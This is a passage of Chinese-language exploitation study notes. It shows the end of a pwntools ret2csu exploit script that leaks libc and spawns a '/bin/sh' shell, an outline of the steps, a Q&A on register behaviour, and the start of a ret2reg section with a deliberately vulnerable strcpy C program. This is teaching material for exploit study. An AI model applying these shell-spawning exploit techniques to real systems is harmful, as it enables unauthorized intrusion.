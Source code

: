 ```
csu(0,1,read_got_addr,16,bss_addr,0,main_got_addr)             
p.send(p64(system_addr)+'/bin/sh\x00')

#第三次发送payload，执行system函数
p.recvuntil('Hello, World\n')
csu(0,1,bss_addr,0,0,bss_addr+8,main_got_addr)             

p.interactive()
```

### 思路

- 利用栈溢出执行 libc_csu_gadgets 获取 write 函数地址，并使得程序重新执行 main 函数
- 根据 libcsearcher 获取对应 libc 版本以及 execve 函数地址
- 再次利用栈溢出执行 libc_csu_gadgets 向 bss 段写入 execve 地址以及 '/bin/sh’ 地址，并使得程序重新执行 main 函数。
- 再次利用栈溢出执行 libc_csu_gadgets 执行 execve('/bin/sh') 获取 shell。

### 疑问

+ 上述思路中，能不能省去第三步，直接通过版本找到字符串/bin/sh的地址，然后利用栈溢出传入地址直接执行？

  答：不可以，因为这条指令的原因mov     edi, r15d，它只能将r15低32位赋给edi,而bss段地址本身比较低，高32位为0不影响赋值后rdi的结果

+ 如果system函数不行可以尝试使用execve



## ret2reg

### 原理（思路）

1. 查看溢出函返回时哪个寄存值指向溢出缓冲区空间
2. 然后反编译二进制，查找 call reg 或者 jmp reg 指令，将 EIP 设置为该指令地址
3. reg 所指向的空间上注入 Shellcode (需要确保该空间是可以执行的，但通常都是栈上的)

### 例子

源程序：

```
#include <stdio.h>
#include <string.h>
void evilfunction(char *input) {
        char buffer[512];
        strcpy(buffer, input);
}
int main(int argc, char **argv) {
        evilfunction(argv[1]);
        return 0;
}
```

编译：
